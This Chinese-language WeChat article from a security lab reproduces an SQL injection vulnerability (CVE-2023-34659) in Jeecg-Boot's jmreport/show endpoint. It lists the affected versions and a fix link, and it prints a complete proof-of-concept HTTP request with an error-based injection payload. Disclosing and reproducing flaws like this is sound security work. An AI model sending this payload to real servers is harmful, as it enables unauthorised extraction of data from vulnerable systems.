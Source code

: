#  Jeecg-Boot SQL注入漏洞(CVE-2023-34659)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 34 个

#网络安全 42 个

#POC 15 个

#漏洞 55 个

#复现 29 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x01漏洞介绍**  
  

Jeecg-Boot是JeecgBoot社区的一款基于代码生成器的低代码平台。

jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id
参数存在SQL注入漏洞。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x02影响版本**  
  

     jeecg-boot 3.5.1 

     jeecg-boot 3.5.0

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090950.png)

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090952.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/show HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36Connection: closeContent-Length: 147Content-Type: application/json;charset=UTF-8Accept-Encoding: gzip  
    {  "id": "961455b47c0b86dc961e90b5893bff05",  "apiUrl": "",  "params": {    "id ": "1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '"  }}

复现请求

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090953.png)

3.nuclei工具测试（漏洞不存在）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090954.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4976

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090957.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090958.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

